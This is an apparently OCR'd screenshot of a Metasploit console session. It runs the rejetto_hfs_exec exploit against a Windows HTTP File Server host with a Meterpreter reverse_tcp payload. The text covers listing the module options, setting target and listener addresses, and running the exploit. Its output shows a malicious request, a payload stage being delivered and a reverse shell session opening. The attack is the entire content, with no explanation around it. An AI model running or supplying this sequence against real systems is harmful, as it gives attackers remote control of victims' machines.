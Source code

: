 msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     x.x.x.x          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    x.x.x.x          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     50000            yes       The listen address (an interface may be specified)
   LPORT     51000            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST x.x.x.x
LHOST => x.x.x.x
msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 51000
LPORT => 51000
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST x.x.x.x
SRVHOST => x.x.x.x
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on x.x.x.x:51000 
[*] Using URL: http://x.x.x.x:8080/2gDwRKqDt
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /2gDwRKqDt
[*] Sending stage (180291 bytes) to x.x.x.x
[*] Meterpreter session 12 opened (x.x.x.x:51000 -> x.x.x.x:49162) at 2019-10-26 22:46:57 +0000

